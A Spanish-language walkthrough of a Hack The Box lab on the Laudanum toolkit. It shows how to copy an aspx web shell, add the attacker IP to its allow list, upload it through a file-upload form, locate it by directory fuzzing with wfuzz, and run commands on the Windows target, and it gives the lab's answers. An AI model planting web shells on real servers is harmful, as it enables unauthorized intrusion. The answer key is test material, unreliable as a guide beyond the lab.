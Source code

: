 
**Laudanum** es un repositorio de archivos predefinidos que permite:
- Inyectar en una víctima y acceder a ella mediante una reverse shell
- Ejecutar comandos desde el navegador (webshell)
Incluye payloads preparados para atentar contra diferentes lenguajes de aplicaciones web: asp, aspx, jsp, php....

Los archivos de Laudanum se encuentran en el directorio*/usr/share/laudanum*.

Vamos a probar una webshell contra un servicio web.

Vamos a copiarnos una webshell en:
```shell-session
Polika4RM@htb[/htb]$ cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```


Las principales tecnologías de sitios web son:

|Lenguaje/Plataforma|Extensión de archivo webshell|Comentario|
|---|---|---|
|ASP clásico|`.asp`|Servidores Windows antiguos con IIS.|
|ASP.NET|`.aspx`|Windows moderno con IIS; muy usado en aplicaciones empresariales.|
|JSP (Java)|`.jsp`|Servidores Java/Tomcat, típicos en aplicaciones corporativas Java.|
|PHP|`.php`|Servidores Linux/Windows con PHP instalado; el más común en web pública.|

Como modificaciones en este archivo, deberemos añadir nuestra IP (10.10.14.12) en la línea 59 del archivo demo.aspx.
```
string[] allowedIps = new string[] {"::1", "192.168.0.1", "127.0.0.1", "10.10.14.12"};
```

En el servidor web "status.inlanefreight.local" existe un botón de subir archivo. Cargamos dicha shell.
En el navegador, ingreamos a "status.inlanefreight.local//files/demo.aspx".
Y desde aquí podremos tener una webshell.

---
**QUESTIONS**
**Target: 10.129.42.197**
**VHOST needed:**
**1. Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)**

En primer lugar, en la máquina atacante añadimos el VHOST que aloja la máquina víctima, con:
```
echo "10.129.42.197 status.inlanefreight.local" | sudo tee -a "/etc/hosts"
```
Este comando lo que hace es añadir a /etc/hosts el texto "10.129.42.197 status.inlanefreight.local".
Esta página, al final de todo, nos permite subir un archivo. Aqui es donde subiremos la webshell. Pide que el formato sea únicamente .zip o tar.gz files.

Nos copiamos el archivo:
```
cp /usr/share/laudanum/aspx/shell.aspx .
```

Añadiendo a la línea 59 nuestra IP atacante: 
```
string[] allowedIps = new string[] {"::1","192.168.0.1", "127.0.0.1", "10.10.15.80"};
```

Subimos dicha Shell al servidor con la opción de "Upload File", y vamos a realizar fuzzing para descubir donde se aloja dicho archivo.
Ejecutamos:
```
wfuzz --hl=29 -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://status.inlanefreight.local/FUZZ
```
Y nos devuelve que existe el subdirectorio
```
http://status.inlanefreight.local/files
```

Pues, desde el navegador ejecutamos: 
```
http://status.inlanefreight.local/shell.aspx
```
Y vemos como nos encotramos en una webshell.
Esta es una máquina windows, pues, para ver el directorio actual en el que me encuentro ejecuto solamente: 
```
cd
```

Siendo al respuesta *c:\windows\system32\inetsrv*


**2.  Where is the Laudanum aspx web shell located on Pwnbox? Submit the full path. (Format: /path/to/laudanum/aspx)**
La respuesta es: */usr/share/laudanum/aspx/shell.aspx*

